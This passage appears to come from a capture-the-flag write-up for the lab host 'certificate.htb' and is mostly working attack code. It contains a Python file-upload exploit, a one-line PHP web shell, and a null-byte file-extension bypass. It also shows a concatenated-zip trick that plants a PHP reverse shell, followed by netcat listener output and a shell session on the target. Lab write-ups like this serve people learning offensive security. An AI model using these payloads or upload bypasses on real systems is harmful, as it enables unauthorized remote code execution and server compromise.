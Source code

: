 ```python
    }

    submit = s.post(f"http://{target}/upload.php?s_id=36", files=files)

    upload = re.search(r".*href='?(.*)'>HERE", submit.text)
    #print(submit.text)
    if upload:
        return f"http://{target}/{upload.group(1)}"
    return "No upload returned"
```

    tokugero-0.1090536292027513 tokugero


Here's the payload work that all the above is set up to push.


```python
payload = b'<?=`$_GET[0]`?>'
newtemplate = pdftemplate.replace(b'{PAYLOAD}', payload)

print(extension_exploit(payload, target, '.php\x00.pptx')) #<--- Here we're using a quick method to test lots of payloads, 
                                                                # the one that worked is a nullbyte before the tested extension 
                                                                # such that PHP will allow the file but the future unzip 
                                                                # function will use just the php extension of the nested file
```

    http://certificate.htb/static/uploads/3644d45c1513d9df8d3841fd55c33e33/NFPuFIHD1sW3.php .pptx


This is the alternative method using the zipslip method to load in a php revshell
```sh
 zip -r pdf.zip 000.pdf    
  adding: 000.pdf (deflated 15%)
 zip -r payload.zip payload
  adding: payload/ (stored 0%)
  adding: payload/revshellsmall.php (deflated 26%)
  adding: payload/phpinfo.php (stored 0%)
  adding: payload/dbdump.php (deflated 45%)
 cat payload.zip pdf.zip > assignment.zip


 nc -lvn 9999                          
Listening on 0.0.0.0 9999
Connection received on 10.129.61.25 49634
```
And here we're in the system!
```sh

PS C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991\payload> dir


    Directory: C:\xampp\htdocs\certificate.htb\static\uploads\ddb7694e428c336550fed63784feb991\payload


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         6/1/2025  12:29 PM             20 phpinfo.php                                                           
-a----         6/1/2025  12:39 PM            113 revshellsmall.php                                                     
```